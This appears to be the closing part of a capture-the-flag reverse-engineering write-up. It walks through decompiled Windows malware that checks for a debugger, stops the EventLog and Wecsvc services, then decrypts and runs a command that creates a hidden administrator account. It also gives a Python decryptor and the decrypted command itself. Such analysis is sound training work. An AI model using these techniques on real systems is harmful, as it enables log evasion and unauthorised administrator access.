  GetComputerNameExA_str[0] = 'G';
  [...]
  lstrlen_str[0] = 'l';
  [...]
  WinExec_str[0] = 'W';
  [...]
  Sleep_str[0] = 'S';
  [...]
  Wecsvc_str[0] = 'W';
  [...]
  EventLog_str[0] = 'E';
  [...]
  shellcode_156[0] = 0x4e;
  [...]
  shellcode_156[154] = 0x0;
  key_32[0] = 0x2d;
  key_32[1] = 0xe3;
  key_32[2] = 0x90;
  key_32[3] = 0x13;
  key_32[4] = 0xf;
  key_32[5] = 0xc;
  key_32[6] = 0x78;
  key_32[7] = 0x82;
  key_32[8] = 0x27;
  key_32[9] = 0x57;
  key_32[10] = 0xb2;
  key_32[11] = 0x81;
  key_32[12] = 0x37;
  key_32[13] = 0x85;
  key_32[14] = 0xc;
  key_32[15] = 0x6;
  key_32[16] = 0x2a;
  key_32[17] = 0xb7;
  key_32[18] = 0xe6;
  key_32[19] = 0xdb;
  key_32[20] = 0xc7;
  key_32[21] = 0x38;
  key_32[22] = 0x7e;
  key_32[23] = 0xef;
  key_32[24] = 0xb9;
  key_32[25] = 0x52;
  key_32[26] = 0xa2;
  key_32[27] = 0x11;
  key_32[28] = 0x46;
  key_32[29] = 0x78;
  key_32[30] = 0x71;
  key_32[31] = 0x3a;
  ARCH_WORKSTATION-7_str[0] = 'A';
  [...]
  LPSERVICE_STATUS_Wecsvc = 0;
  LPSERVICE_STATUS_EventLog = 0;
  kernel32.dll = (short *)FUN_7ff8ab0a3139((longlong)kernel32.dll_str_utf16);
  if (kernel32.dll == (short *)0x0) {
    errorcode = 1;
  }
  else {
    LoadLibraryA = (code *)FUN_7ff8ab0a2eff(kernel32.dll,(longlong)LoadLibraryA_str);
    if (LoadLibraryA == (code *)0x0) {
      errorcode = 2;
    }
    else {
      GetProcAddress = FUN_7ff8ab0a2eff(kernel32.dll,(longlong)GetProcAddress_str);
      if (GetProcAddress == 0) {
        errorcode = 3;
      }
      else {
        Advapi32.dll = (short *)(*LoadLibraryA)(Advapi32.dll_str);
        if (Advapi32.dll == (short *)0x0) {
          errorcode = 4;
        }
        else {
          IsDebuggerPresent = (code *)FUN_7ff8ab0a2eff(kernel32.dll,(longlong)IsDebuggerPresent_str)
          ;
          if (IsDebuggerPresent == (code *)0x0) {
            errorcode = 6;
          }
          else {
            targetcomputername_length = (*IsDebuggerPresent)();
            if (targetcomputername_length == 0) {
              OpenSCManagerA = (code *)FUN_7ff8ab0a2eff(Advapi32.dll,(longlong)OpenSCManagerA_str);
              OpenServiceA = (code *)FUN_7ff8ab0a2eff(Advapi32.dll,(longlong)OpenServiceA_str);
              ControlService = (code *)FUN_7ff8ab0a2eff(Advapi32.dll,(longlong)ControlService_str);
              CloseServiceHandle =
                   (code *)FUN_7ff8ab0a2eff(Advapi32.dll,(longlong)CloseServiceHandle_str);
              ExitProcess = (code *)FUN_7ff8ab0a2eff(kernel32.dll,(longlong)ExitProcess_str);
              GetComputerNameExA =
                   (code *)FUN_7ff8ab0a2eff(kernel32.dll,(longlong)GetComputerNameExA_str);
              lstrlen = (code *)FUN_7ff8ab0a2eff(kernel32.dll,(longlong)lstrlen_str);
              WinExec = (code *)FUN_7ff8ab0a2eff(kernel32.dll,(longlong)WinExec_str);
              Sleep = (code *)FUN_7ff8ab0a2eff(kernel32.dll,(longlong)Sleep_str);
              if (((OpenServiceA == (code *)0x0) || (OpenSCManagerA == (code *)0x0)) ||
                 (ControlService == (code *)0x0)) {
                errorcode = 5;
              }
              else if (((CloseServiceHandle == (code *)0x0) || (ExitProcess == (code *)0x0)) ||
                      (GetComputerNameExA == (code *)0x0)) {
                errorcode = 5;
              }
              else if (((lstrlen == (code *)0x0) || (WinExec == (code *)0x0)) ||
                      (Sleep == (code *)0x0)) {
                errorcode = 5;
              }
              else {
                length_256 = 0x100;
                (*GetComputerNameExA)(0,computername_256,&length_256);
                computername_length = (*lstrlen)(computername_256);
                targetcomputername_length = (*lstrlen)(ARCH_WORKSTATION-7_str);
                if (computername_length == targetcomputername_length) {
                  errorcode = strcmp_func((longlong)computername_256,
                                          (longlong)ARCH_WORKSTATION-7_str);
                  if ((int)errorcode == 0) {
                    (*Sleep)(300000);
                    errorcode = 0xffffffec;
                  }
                  else {
                    SC_Handle = (*OpenSCManagerA)(0,0,0xf003f);
                    Wecsvc_Handle = (*OpenServiceA)(SC_Handle,Wecsvc_str,0x20);
                    EventLog_Handle = (*OpenServiceA)(SC_Handle,EventLog_str,0x20);
                    local_140 = (*ControlService)(Wecsvc_Handle,1,&LPSERVICE_STATUS_Wecsvc);
                    local_118 = (*ControlService)(EventLog_Handle,1,&LPSERVICE_STATUS_EventLog);
                    decrypt((char *)shellcode_156,(char *)key_32,0x9a);
                    (*WinExec)(shellcode_156,0);
                    (*ExitProcess)(0);
                    local_120 = (*CloseServiceHandle)(Wecsvc_Handle);
                    (*CloseServiceHandle)(EventLog_Handle);
                    errorcode = 0;
                  }
                }
                else {
                  (*Sleep)(300000);
                  errorcode = 0xffffffec;
                }
              }
            }
            else {
              errorcode = 0xfffffff6;
            }
          }
        }
      }
    }
  }
  return errorcode;
}
```

- It loads some libraries with `LoadLibraryA` and gets the address of some functions in these libraries (like `OpenService`, `ControlService` and `GetComputerNameExA`)
- Checks whether a debugger is present using `IsDebuggerPresent`
- Checks whether the current computer name is `ARCH_WORKSTATION`
- Kills the `Wecsvc` and `EventLog` services
- Decrypts a Windows command using a 32-byte long key
- Executes the command

```c
void decrypt(char *shellcode_156,char *key_32,int shellcode_length)
{
  uint j;
  int i;
  
  for (i = 0; i < shellcode_length; i = i + 1) {
    j = i >> 0x1f & 0x1f;
    shellcode_156[i] = shellcode_156[i] ^ key_32[(int)((i + j & 0x1f) - j)];
  }
  return;
}
```

The decryption function can be reimplemented in Python:

```python
payload = bytes.fromhex('4e8ef433206f58a04932c6a142f669740ad087b6a2151f9dda3acb65231b05171dd1b05b5b4e03cb6b08c1f507e87c3744d0b9efa95c218788309163284c050b1d8dcf753f7e27f64f64ede645b1626275d1d7b5f3545fcec4728d70221c511554c3b6352f621df6073bdde256e96b7445c296fba65c1386d73bd165341905555f90b0746e611daf4625d1e95ef169655e9ad6e9e7171f8bdd7000')
key = bytes.fromhex('2de390130f0c78822757b28137850c062ab7e6dbc7387eefb952a2114678713a')

def decrypt(payload, key):
    result = ''
    for i in range(len(payload)):
        j = i >> 0x1f & 0x1f
        result += chr(payload[i] ^ key[((i + j & 0x1f) - j)])
    return result
    
result = decrypt(payload, key)
print(result)
```

If we execute it, we get the decrypted command with the flag in it:

```batch
cmd /c "net user game-architect-02 HTB{IL_st0mp1ng_4nd_h1b3rn4t10n_f0r_th3_gr4nd_f1n4l!!} /add /y && net localgroup administrators game-architect-02 /add"¢
```

Flag: `HTB{IL_st0mp1ng_4nd_h1b3rn4t10n_f0r_th3_gr4nd_f1n4l!!}`

Here is a very interesting article about .NET R2R:
- <https://research.checkpoint.com/2023/r2r-stomping-are-you-ready-to-run/>